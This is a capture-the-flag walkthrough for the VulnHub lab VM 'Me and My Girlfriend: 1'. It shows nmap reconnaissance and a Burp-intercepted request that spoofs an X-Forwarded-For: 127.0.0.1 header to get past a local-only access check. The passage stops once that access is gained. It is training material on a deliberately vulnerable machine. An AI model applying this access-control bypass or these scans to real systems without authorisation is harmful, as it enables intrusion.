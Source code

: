 # Me and My Girlfriend: 1
* URL: https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/
* Date release: 13 Dec 2019
* Author: [TW1C3](https://www.vulnhub.com/author/tw1c3,664/)
* Series: [Me and My Girlfriend](https://www.vulnhub.com/series/me-and-my-girlfriend,267/)

This VM tells us that there are a couple of lovers namely Alice and Bob, where the couple was originally very romantic, but since Alice worked at a private company, "Ceban Corp", something has changed from Alice's attitude towards Bob like something is "hidden", And Bob asks for your help to get what Alice is hiding and get full access to the company!

* Difficulty Level: Beginner
* Notes: there are 2 flag files
* Learning: Web Application | Simple Privilege Escalation

# Footprinting
We need more information about the target by
starting with find out the ip address of the target by using Nmap

```console
nmap -F [ip address/mask]
```

The figure below shows the results:
<p align="center">
<img src="/meAndMyGf1/pic/target.png">
</p>

at this point, we can now use the web browser to access to target's web page. Follow by ***inspect element***. the result:

```html
Who are you? Hacker? Sorry This Site Can Only Be Accessed local!<!-- Maybe you can search how to use x-forwarded-for -->
```

As you can see, the creator of this CTF gave use a hint that we should use **x-forwarded-for** get the first flag

to find **more** information about the target

```console
nmap -A -sV -O [ip address] > meAndMyGf.txt
```
Where:
* -sV = Version scanning
* -A = Version scanning
* -O = OS detection

We also put the result from nmap in a file. This will help us to save some time since we do not need to run this command to get target's info again.

here is the result from runing the command above:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-31 13:24 EST
Nmap scan report for [ip address]
Host is up (0.00056s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3b:26:4d:e4:a0:3b:f8:75:d9:6e:15:55:82:8c:71:97 (RSA)
|   256 8f:48:97:9b:55:11:5b:f1:6c:1d:b3:4a:bc:36:bd:b0 (ECDSA)
|_  256 d0:c3:02:a1:c4:c2:a8:ac:3b:84:ae:8f:e5:79:66:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:0D:53:C5 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.56 ms [ip address]

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.42 seconds
```

The last line of the nmap output shows that it took 20 sec to finish the scanning. WOW is a lot, good that we save the output in a file. I think I should increasse the ram of my kali vm.

# Action
Fire up Burp Suit and get ready for some web application hacking! The hint was use **x-forwarded-for** to access to webserver.

according to [this](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For).
X-Forwarded-For or XFF header is a de-facto standard header for identifying the **originating IP address**  of a (src ip) client connecting to a web server (our target) through an HTTP proxy or a load balancer.Our goal is spoofing src ip address so the web server think we try to access from local. 

At this point you can now guess, WE have to combine XFF and localhost.
Now try to visite the website when the brup suit is on and try to intercept the get request. Then add
```
X-Forwarded-For: 127.0.0.1
```
The request should look something like this
```
GET /?page=index HTTP/1.1
Host: [ip address]
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=03gbe8fmpkvdr31vaf2io6co62
Connection: close
Upgrade-Insecure-Requests: 1
```
When the webserver get our request, it will assume that the request was send from 127.0.0.1 (localhost). It then response with a legit webpage that was blocked before.
WOOP WOOP! we are in !!!
<p align="center">
<img src="/meAndMyGf1/pic/home.png">
</p>
